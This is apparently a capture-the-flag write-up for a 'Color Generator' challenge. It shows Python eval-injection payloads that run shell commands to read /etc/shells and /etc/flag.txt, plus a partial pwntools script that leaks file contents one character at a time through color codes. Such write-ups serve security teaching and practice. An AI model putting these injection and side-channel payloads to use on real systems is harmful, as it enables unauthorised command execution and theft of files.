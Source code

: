 1. Giving input 35 and getting its color code.
2. Giving input `ord(__import__('subprocess').check_output('/bin/cat$IFS/etc/shells',shell=True).decode('utf-8').rstrip('\n')[0])` to get the ascii of 0'th character which should be #.

Both results in same color code.

## Exfiltrating FLAG: /etc/flag.txt

![cg06](/assets/playsecure2021/cg06.png)

We know flag is in format CTFAE{XXXXXX}. The 0th character is 'C' and its ascii is 67.

1. Color code for 0'th character of /etc/flag.txt: `ord(__import__('subprocess').check_output('/bin/cat$IFS/etc/flag.txt',shell=True).decode('utf-8').rstrip('\n')[0])`
2. Color code for 67 = C

Both are same. So we can use this method to exfiltrate all flag contents. I'm assuming flag length is about 40. (Found that length is 34 during testing, adjusted in script below)

## Proof of Concept Script For Flag Exfiltration

1. Gets all color codes for all printable characters and saves in a dictionary with color as key as value as character.
2. Reads color codes for each character of flag.
3. Converts the flag characters color code to string using the dictionary from step 1
4. Print flag.

```python3
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Color Generator exploitation solution

import string
from pwn import *

cb = string.printable

conn = remote('exploitation.ps.ctf.ae',2020)
r = conn.recvuntil("> ")

d = {}

print (r)

print "[*] Dumping Colors for all printable characters"
for i in range(len(cb)):
	conn.sendline(str(ord(cb[i])))
	color =  conn.recvline()
	color = color.rstrip('\n').replace(">","").replace(" ","")
	d[color] = cb[i]
	print color

print "[+] Colors for all printable characters"
print (d)

```